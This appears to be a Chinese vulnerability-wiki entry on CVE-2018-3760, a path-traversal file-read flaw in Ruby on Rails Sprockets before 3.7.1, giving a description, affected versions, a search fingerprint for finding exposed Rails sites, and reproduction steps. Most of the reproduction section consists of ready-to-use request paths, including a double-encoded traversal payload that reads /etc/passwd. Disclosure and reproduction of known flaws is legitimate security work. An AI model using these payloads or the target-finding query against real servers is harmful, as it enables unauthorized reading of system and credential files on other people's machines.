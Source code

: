 # Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

<a-checkbox checked>Sprockets < 3.7.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Ruby On Rails"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1656041292346-1069b91e-aa5e-4d53-821a-9150720e9b5e.png)

先获取绝对路径

```php
/assets/file:%2f%2f/etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1656041358544-854ca040-261f-474f-86fc-61a8558e4238.png)

再利用POC读取文件

```php
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1656041483857-17cdbe06-5526-4b80-9189-b4ec9ea0b834.png)